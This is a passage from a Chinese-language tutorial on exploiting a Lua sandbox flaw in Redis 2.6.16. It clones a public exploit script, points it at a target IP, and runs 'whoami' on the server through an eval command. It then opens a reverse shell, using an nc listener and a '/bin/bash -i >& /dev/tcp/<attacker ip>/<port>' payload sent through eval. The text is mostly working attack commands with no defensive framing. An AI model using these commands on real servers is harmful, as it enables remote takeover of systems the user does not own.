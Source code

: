 ```plain
git clone https://github.com/QAX-A-Team/redis_lua_exploit.git //下载漏洞利用脚本
```

测试环境：`centos6.5+redis 2.6.16`

脚本为 python2，运行脚本需先安装 `python2 redis` 组件

```plain
python2 -m pip install redis //为 python2 安装 redis 组件
```

修改脚本中 host 为目标 IP。  
[![](assets/1702372985-4b7731255cb6f07cd67162d9178a737f.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/WEB/Redis/25.png)

通过`redis-cli`连接到目标 redis，执行`eval "tonumber('whoami', 8)" 0`这段 lua，目标服务器就会执行 whoami 命令。

```plain
eval "tonumber('whoami', 8)" 0 //执行命令
```

此时我们使用回弹 shell 测试一下，先开启 nc 监听：

```plain
nc -lvnp 5678
```

再连接上数据库执行会弹语句：

```plain
eval "tonumber('/bin/bash -i >& /dev/tcp/<攻击机ip>/<端口信息> 0>&1', 8)" 0
```
